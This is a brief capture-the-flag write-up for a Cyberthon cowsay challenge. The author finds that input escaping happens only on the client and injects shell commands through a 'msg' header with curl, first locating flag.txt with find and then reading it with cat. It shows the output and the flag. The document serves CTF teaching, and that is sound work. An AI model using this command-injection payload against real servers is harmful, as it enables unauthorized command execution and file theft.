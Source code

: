 ```yaml
---
created: 2024-06-11T01:33
updated: 2024-06-11T01:35
---
```


> We've got intel that APOCALYPSE has an important file within this webserver named "flag.txt".
>
> Please help us retrieve its contents.
>
> The URL for this challenge:
> http://chals.cyberthon22f.ctf.sg:40201

From the networking debugger tool, we can see that all escaping are done client side. So we can just send our own command.

We can also see that the command is sent via header called `msg`

```shell
## Cowsay
curl -X "POST" "http://chals.cyberthon22f.ctf.sg:40201/cowsay" \
     -H 'msg: "e" | find .. -name "flag.txt" -print'
```

```
 _________________________________ 
< ../usr/local/flag/here/flag.txt >
 --------------------------------- 
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

Now we can simply read the file

```shell
## Cowsay
curl -X "POST" "http://chals.cyberthon22f.ctf.sg:40201/cowsay" \
     -H 'msg: "e" | cat "../usr/local/flag/here/flag.txt"'
```

```
 _________________________ 
< Cyberthon{1_L0V3_W4GYU} >
 ------------------------- 
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

There we have our flag
